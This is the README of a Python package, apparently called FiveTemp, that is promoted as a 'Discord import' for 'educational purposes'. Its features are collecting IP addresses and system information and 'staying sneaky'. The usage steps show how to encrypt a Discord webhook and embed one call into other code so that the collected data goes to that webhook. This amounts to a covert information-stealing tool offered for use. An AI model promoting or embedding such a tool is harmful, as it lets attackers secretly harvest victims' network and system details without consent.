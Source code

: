 
# FiveTemp

FiveTemp (5t) Is a Discord import designed soley for educational purposes. The creator Abyzms is not responsible for any misusage or damadges caused using FiveTemp.




## Features

- IP Address configuration
- System Information
- Staying sneaky ;)
## Installation

Install FiveTemp

```bash
pip install fivetemp
```
    
## Feedback

If you have any feedback, please reach out to us at abyzms0+fivetemp@gmail.com
Or: Comment on our youtube video. https://www.youtube.com/@abyzmzs


## Usage/Examples
```python
5t -w [YOUR WEBHOOK]
```
^ This will output your encrypted webhook.
```python
import five_temp

five_temp.s('Encrypted_Webhook_Here')
# Rest of your code . . .
```

## Updates Etc.

```bash
5t -m
# or
5t --menu
```
^ This opens up a Localhost which when typed into the search bar (on localhost:5000 im p sure)
  That will show the uhhhhhh the uhhh the site :D